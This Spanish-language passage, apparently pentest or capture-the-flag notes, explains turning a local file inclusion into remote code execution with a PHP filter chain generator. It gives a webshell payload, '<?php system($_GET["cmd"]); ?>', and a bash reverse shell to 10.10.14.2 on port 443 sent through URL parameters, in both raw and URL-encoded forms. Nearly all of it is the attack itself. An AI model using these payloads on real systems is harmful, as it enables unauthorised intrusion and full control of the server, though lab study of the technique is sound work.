 
Para controlar el comando a ejecutar.
```bash
❯ python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'     # Nos crea la expresion, & lo debemos de url-encodear = %26
```
Esto es en la url de la web.
* localhost?filename='Aqui colocamos el resultado del comando anterior'&cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
* localhost?filename='Aqui colocamos el resultado del comando anterior'&cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261"     -> La manera correcta
Podemos ejecutar comandos. Es una forma mas avanzada de hacerlo.
Debemos de colocar al final **&cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"** y es ahi donde podriamos colocar cualquier comando